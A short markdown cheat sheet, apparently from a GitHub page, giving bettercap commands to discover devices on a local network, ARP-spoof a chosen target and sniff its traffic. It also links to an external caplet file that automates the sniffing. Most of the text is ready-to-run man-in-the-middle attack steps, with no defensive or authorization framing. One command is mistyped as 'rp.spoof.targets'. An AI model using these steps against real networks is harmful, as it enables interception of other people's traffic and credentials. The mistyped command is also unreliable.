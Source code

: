````bash
sudo apt install bettercap
# Start Bettercap on Interface
bettercap -iface <interface> 
# View all Modules
help 
help <module-name>
````

#### View Devices on Network

````bash
# Discover devices connected to Network
net.probe on 
net.show
````

#### ARP Spoofing

````bash
net.probe on
help arp.spoof
set arp.spoof.fullduplex true
````

If the router has protection against ARP spoofing then full duplex mode will not work. In that case leave the value as false. But then we cannot perform all attacks as the router will directly send the response to the target

````bash
set rp.spoof.targets <target-ip>
arp.spoof on
````

#### Sniff Data on Target Device

Enable net.probe & arp.spoof

````bash
net.sniff on
````

Instead of typing the commands again and again we can create an .cap file with all the commands that need to be executed

Sniff Data Cap File   
<https://drive.google.com/open?id=1Man5IhMekLHHNEw3rwGxkn9kpQBZhdGt>

````bash
bettercap -iface <interface> -caplet <sniff-data-cap-file>
````
